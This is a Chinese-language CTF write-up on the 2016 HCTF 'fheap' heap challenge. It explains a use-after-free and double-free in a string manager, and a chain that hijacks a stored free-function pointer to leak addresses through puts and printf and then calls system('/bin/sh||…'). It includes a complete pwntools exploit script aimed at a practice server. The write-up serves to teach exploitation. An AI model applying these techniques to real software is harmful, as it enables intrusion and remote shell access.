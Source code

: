```yaml
---
title: 2016 HCTF fheap
comments: true
tags:
categories:
abbrlink: 
date: 2020-09-13 00:16:26
update: 
password: 
sticky: 
---
```


# 2016 HCTF fheap

## 基本情况

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

## 基本功能

阉割版堆管理器，有增删功能。

```c
// 管理堆的结构体
struct
{
    int inuse;
    String *str;
} Strings[0x10];

// 堆结构体
typedef struct String
{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;
```

create string 有两种不同方式来储存字符串：

1. 字符串块 < 16 , 在结构体堆块（String）上存放输入的字符串。

2. 字符串块>=16 ,  malloc 一个**输入的字符串长度 size** 的空间， 将该空间地址存放在原来的堆块中。

   > 注意是 malloc 输入的字符串长度 ，而不是输入的 size 。自行根据源码分析：
   >
   > ```c
   > nbytesa = strlen(&buf);
   > if ( nbytesa > 15 )
   > {
   >     dest = (char *)malloc(nbytesa);
   > ```

结构体堆块（String）最后 8 个字节存放的是 free_func 函数地址，用来在 delete 的时候调用，这样的设计与上面例子一致。字符串块两种情况对应两种不同的 free_func 。

delete string 根据输入下标释放 chunk 。

### 漏洞

delete 操作释放 chunk 后，没有将相关索引指针置零，而且没有对 chunk 状态进行严格限制，仅仅限制下标范围，以及查询索引指针是否存在，并没有检查 inuse 位，造成 **UAF**、**Double free** 。

### 思路

1. 利用 UAF 控制结构体堆块（String）最后 8 字节，修改 free_func 为 puts 函数地址。释放 chunk 泄露函数真实地址，通过计算得出程序加载基地址。完成绕过 PIE 保护。
2. 再次 UAF 控制结构体堆块（String）函数地址为 printf 函数，构造出格式化字符串漏洞，泄露栈上位于 libc 段的地址，完成 libc 地址泄露。
3. 第三次 UAF 控制结构体堆块（String）函数地址为 system 函数，利用 Linux 命令行特性 ``||`` 完成 getshell 

---

UAF 控制思路和例题差不多，但是一个问题。如果使用一样的 UAF 利用方法会出现问题：

```python
add(0x30,'a'*0x30)#0
add(0x30,'a'*0x30)#1
delete(1)
delete(0)
add(0x18,'b'*0x18)
```

这样不能达到预期效果，新堆的 string chunk 用的不是 chunk0 结构体，而是继续使用 chunk2 string chunk 。后续试过申请大小各种 string chunk 都是一样情况。

所以采用申请两个小堆（字符串长度小于 16），然后新堆申请一个 0x20 大小空间存放 string ，这样 string 就会使用 chunk1 结构体堆。

```python
add(8,'a'*8)
add(8,'b'*8)
delete(1)
delete(0)
```

在 free_short 附近找到 call puts 的地址：0xd2d 。然后使用 partial write 将 free_func 最低一个字节修改为 0x2d 。释放 chunk1 ，将 chunk1 结构体内容输入，从而泄露函数地址，计算出程序加载基地址。

```python
call_puts_addr = 0xd2d
payload = 'a'*0x18 + p64(call_puts_addr)[0]
add(len(payload),payload)

delete(1)
p.recvuntil('a'*0x18)
elf_base = u64(p.recv(6).ljust(8,'\x00'))-call_puts_addr
```

释放 chunk0 方便我们重复利用这两个堆，然后重复上面步骤找到 call printf ：0xDBB 。需要将格式化字符串在申请堆时写入在开头。偏移地址 gdb 调试找到一个 libc 内的地址即可。

```python
delete(0)
payload = '%22$p'.ljust(0x18,'a') + p64(0xDBB)[0]
add(len(payload),payload)
delete(1)
```

这步结束后会卡输入流，输入两行字符即可：

```python
p.sendline('skye')
p.sendline('skye')
```

再次释放 chunk0 并申请，这次将函数地址修改为 system 地址，/bin/sh 输入在开头。由于程序输入函数不能读入 \x00 ，所以用 ``||`` 分隔填充内容，原因如下：

| 分隔符 | 说明                                                         |
| ------ | ------------------------------------------------------------ |
| &&     | 第2条命令只有在第1条命令成功执行之后才执行                   |
| `||`   | 只有`||`前的命令执行不成功（产生了一个非0的退出码）时，才执行后面的命令。 |
| ；     | 当;号前的命令执行完， 不管是否执行成功，执行;后的命令        |

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwn-f.py
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
# p = process("./pwn-f")
p = remote("node3.buuoj.cn",29256)
elf = ELF("./pwn-f")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def add(size,content):
	p.recvuntil("3.quit\n")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil("str:")
	p.send(content)
def delete(id):
	p.recvuntil("3.quit\n")
	p.sendline("delete string")
	p.recvuntil("id:")
	p.sendline(str(id))
	p.recvuntil("sure?:")
	p.sendline('yes')

# UAF
add(8,'a'*8)
add(8,'b'*8)
delete(1)
delete(0)

# overwrite free_func 2 puts
call_puts_addr = 0xd2d
payload = 'a'*0x18 + p64(call_puts_addr)[0]
add(len(payload),payload)

# leak libc
delete(1)
p.recvuntil('a'*0x18)
elf_base = u64(p.recv(6).ljust(8,'\x00'))-call_puts_addr
log.info("elf_base:"+hex(elf_base))
# printf_plt = elf_base + elf.plt['printf']
# log.info("printf_plt:"+hex(printf_plt))

# overwrite 2 printf leak libc
delete(0)
payload = '%22$p'.ljust(0x18,'a') + p64(0xDBB)[0]
add(len(payload),payload)
delete(1)
leak_addr = int(p.recv(14),16)
log.info("leak_addr:"+hex(leak_addr))
libc_addr = leak_addr - 0x78c0f
log.info("libc_addr:"+hex(libc_addr))
system_addr = libc_addr + libc.sym['system']
log.info("system_addr:"+hex(system_addr))
str_binsh = libc_addr + libc.search('/bin/sh').next()
log.info("str_binsh:"+hex(str_binsh))
# one = [0x45226,0x4527a,0xf0364,0xf1207]
# onegadget = one[0] + libc_addr
# log.info("onegadget:"+hex(onegadget))

p.sendline('skye')
p.sendline('skye')

# system('/bin/sh||aaa……')
delete(0)
payload = '/bin/sh||'.ljust(0x18,'a') + p64(system_addr)
add(len(payload),payload)

# gdb.attach(p,'b *$rebase(0x2020C0)')
# # gdb.attach(p,'b *$rebase(0xDBB)')
delete(1)


p.interactive()
```

### 其他解法

* [hctf2016 fheap学习(FlappyPig队伍的解法)](https://www.cnblogs.com/shangye/p/6156350.html)

* [hctf2016 fheap学习(FreeBuf发表的官方解法)](https://www.cnblogs.com/shangye/p/6156391.html)

  DlyELF 泄露 libc 地址

* [hctf2016-fheap Writeup](http://blog.eonew.cn/archives/586#UAFfreeShortputs)


